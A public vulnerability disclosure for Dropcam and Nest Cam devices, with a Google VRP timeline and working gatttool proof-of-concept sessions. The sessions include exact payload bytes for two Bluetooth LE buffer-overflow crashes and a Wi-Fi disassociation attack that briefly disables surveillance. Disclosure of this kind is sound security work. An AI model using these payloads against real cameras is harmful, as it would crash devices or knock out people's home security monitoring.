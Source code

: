 # Google-Nest-Cam-Bug-Disclosures

Affected: Dropcam, Dropcam Pro, Nest Cam Indoor/Outdoor models<br />
Latest Build Tested: 205-600052<br />
Fixed Build: TBD<br />

Disclosure Timeline:<br />
October 26, 2016: Reported security bug per Google's Vulnerability Reward Program guidelines<br />
October 27, 2016: Google Security Team acknowledged that the report was received and being investigated<br />
November 1, 2016: Google Security Team validated the reported vulnerabilities and filed a bug<br />
November 15, 2016: Google's VRP panel issued a $100 reward under "Non-integrated acquisitions"<br />
March 17, 2017: Public disclosure<br />


<h3>Bluetooth (BLE) based Buffer Overflow via SSID parameter</h3>

1. Summary<br />
It's possible to trigger a buffer overflow condition when setting the SSID parameter on the camera. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a031201AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3b`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]>`<br />
`(gatttool:20352): GLib-WARNING **: Invalid file descriptor.`<br />

3. Details<br />
The payload attempts to set an SSID with a length of 1 byte and sends 16.<br />
SequenceNum=3a + Type=0312 + Length=01 + Value=AA*16<br />

4. Result<br />
Crash and reboot back to operational state

<h3>Bluetooth (BLE) based Buffer Overflow via Encrypted Password parameter</h3>

1. Summary<br />
It's possible to trigger a buffer overflow condition when setting the encrypted password parameter on the camera. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a03120b506574536d6172742d356e1a01AAAAAA`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3b`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]> `<br />
`(gatttool:20352): GLib-WARNING **: Invalid file descriptor.`<br />

3. Details<br />
The payload attempts to set the encrypted wifi password with a length of 1 byte and sends 3.<br />
SequenceNum=3a + Type=0312 + Length=0b + ssidVal=506574536d6172742d356e + type=1a + length=01 + encPass=AA*3<br />

4. Result<br />
Crash and reboot back to operational state


<h3>Bluetooth (BLE) based Wifi Disassociation</h3>

1. Summary<br />
It's possible to temporarily disconnect the camera from Wifi by supplying it a new SSID to connect to. Local storage of video footage is not supported by these cameras so surveillance is temporarily disabled. The attacker must be in bluetooth range at any time during the cameras powered on state. Bluetooth is never disabled even after initial setup.

2. Proof of Concept<br />
`anon@ubuntu:~/nest$ gatttool -b 18:B4:30:5D:00:B8 -t random -I`<br />
`[18:B4:30:5D:00:B8][LE]> connect`<br />
`Attempting to connect to 18:B4:30:5D:00:B8`<br />
`Connection successful`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3a03120b0a6574536d6172742d356e1a20232320`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3becb824ba437c13233ac2ff78b1776456e47a01`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3ca5787d2f5e53f394a512200228003210bc9253`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3d48cada7a0d921d57b2d26ae89c3a04DEADBEEF`<br />
`[18:B4:30:5D:00:B8][LE]> char-write-req 0xfffd 3e`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`Characteristic value was written successfully`<br />
`[18:B4:30:5D:00:B8][LE]> `<br />

3. Details<br />
The payload attempts to change Nest Cam's associated SSID causing temporary disassociation from the current Wifi SSID. Without knowing the encryption key, a valid password can not be set.
seqNum + 0312(type) 0b(len) + SSID + 1a(type) 20(len) + encPass
seqNum + encPass(cont)
seqNum + encPass(cont) + 2002280032(constant) + 10(len) + authTag
seqNum + authTag(cont) + 3a(UnknownType) 04(len) + DEADBEEF
seqNum(execute)

4. Result<br />
Camera dissociates from current wifi network to attempt association with newly set SSID. The camera goes offline for approximately 60-90 seconds before returning to the original Wifi network and resuming normal operation. 
